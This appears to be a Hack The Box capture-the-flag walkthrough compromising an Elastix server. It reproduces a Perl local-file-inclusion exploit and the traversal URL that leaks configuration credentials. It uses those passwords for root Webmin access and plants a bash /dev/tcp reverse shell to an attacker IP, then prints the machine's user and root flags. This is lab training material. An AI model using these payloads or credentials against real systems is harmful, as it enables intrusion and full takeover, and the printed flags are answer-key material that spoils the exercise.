Searching in Google, we find that Elastix is a unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center software with predictive dialing.
And if we do
```bash
$ searchsploit elastix
```


We can see some exploits for elastix, if we will open the exploit that says ‘graph.php’ we can see that this exploit  it performs a directory path traversal on the specified route. 
```bash
$ searchsploit -x php/webapps/37637.pl
```
```bash
source: https://www.securityfocus.com/bid/55078/info

Elastix is prone to a local file-include vulnerability because it fails to properly sanitize user-supplied input.

An attacker can exploit this vulnerability to view files and execute local scripts in the context of the web server process
. This may aid in further attacks.

Elastix 2.2.0 is vulnerable; other versions may also be affected.

#!/usr/bin/perl -w

#------------------------------------------------------------------------------------#
#Elastix is an Open Source Sofware to establish Unified Communications.
#About this concept, Elastix goal is to incorporate all the communication alternatives,
#available at an enterprise level, into a unique solution.
#------------------------------------------------------------------------------------#
############################################################
# Exploit Title: Elastix 2.2.0 LFI
# Google Dork: :(
# Author: cheki
# Version:Elastix 2.2.0
# Tested on: multiple
# CVE : notyet
# romanc-_-eyes ;)
# Discovered by romanc-_-eyes
# vendor http://www.elastix.org/

print "\t Elastix 2.2.0 LFI Exploit \n";
print "\t code author cheki   \n";
print "\t 0day Elastix 2.2.0  \n";
print "\t email: anonymous17hacker{}gmail.com \n";

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

use LWP::UserAgent;
print "\n Target: https://ip ";
chomp(my $target=<STDIN>);
$dir="vtigercrm";
$poc="current_language";
$etc="etc";
$jump="../../../../../../../..//";
$test="amportal.conf%00";

$code = LWP::UserAgent->new() or die "inicializacia brauzeris\n";
$code->agent('Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)');
$host = $target . "/".$dir."/graph.php?".$poc."=".$jump."".$etc."/".$test."&module=Accounts&action";
$res = $code->request(HTTP::Request->new(GET=>$host));
$answer = $res->content; if ($answer =~ 'This file is part of FreePBX') {

print "\n read amportal.conf file : $answer \n\n";
print " successful read\n";

}
else {
print "\n[-] not successful\n";
        }
(END)
```

We need pay attention to this line → #LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

So we will /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action in our browser line to see what content show this directory

```bash
$ https://10.129.229.183//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action  We nee to do Ctrl+U to see correctly the webpage
```


We can see some credentials;

```bash
AMPDBUSER = asteriskuser
AMPDBPASS = jEhdIekWmdjE

AMPMGRUSER=admin
AMPMGRPASS=jEhdIekWmdjE
```

We can see that 2 users have the same password, so we can suspect that the machine is vulnerable to password reuse, so we can try to connect as Admin here  https://10.129.229.183//vtigercrm/



And now we can login as admin

AMPMGRUSER=admin
AMPMGRPASS=jEhdIekWmdjE

And we ar in



We can see that the version in use is vTiger CRM 5.1.0, and if we perform a quick search on Google, we find in Exploit Database that this version has a registered vulnerability, CVE-2012-4867, which allows a Local File Inclusion in the file sortfieldsjson.php.



By exploiting the LFI vulnerability, we were able to access the `/etc/passwd` file. The output includes system users such as:



This shows that the inclusion worked and exposed sensitive system files, confirming the presence of multiple users including system and service accounts.

Based on this, we can try accessing the IP through port 10000, which the Nmap scan identified as a MiniServ Webmin service. Upon accessing it, we can use the credentials root:jEhdIekWmdjE and observe that we are able to log in successfully.





If we take a look, we can see that Scheduled Commands and Cron Jobs are being used. From other HTB machines, we know that this can be leveraged to obtain a reverse shell, so we will attempt to do so. First, we will set up a listener for our reverse shell.
```bash
$ nc -lnvp 8888  
```


Next, we go to a reverse shell generator website to create the reverse shell payload.



Now we can go to the target web in the “Scheduled Commands”


```bash
$ bash -c 'bash -i >& /dev/tcp/10.10.17.55/8888 0>&1'
 ```
We need to specify the Run at time



We can see that the scheduled command are created



After the execution, we got a revrse shell
 


Now as a root, we can search the flags in the root directory and the user directory.


```bash
Root Flag → 6be6d0e6de2e6d527cb38cd4f9e3e0ca
User Flag → f8818b9b694cf326f6916819506bc313
```


[Back](README.md)